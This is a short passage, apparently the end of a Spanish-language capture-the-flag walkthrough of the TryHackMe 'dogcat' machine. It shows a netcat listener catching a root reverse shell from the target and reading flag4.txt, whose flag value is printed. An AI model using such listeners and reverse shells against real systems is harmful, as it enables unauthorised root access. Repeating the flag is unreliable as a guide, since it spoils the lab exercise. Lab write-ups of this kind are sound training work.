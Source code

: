 ~~~bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.2.60.167] from (UNKNOWN) [10.10.66.28] 37580
bash: cannot set terminal process group (16167): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# ls
ls
container
flag4.txt
root@dogcat:~# cat flag4.txt
cat flag4.txt
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
~~~

- Y así completaríamos esta máquina, una bastante fácil que sirve para repasar conceptos básicos de vulnerabilidades típicas.
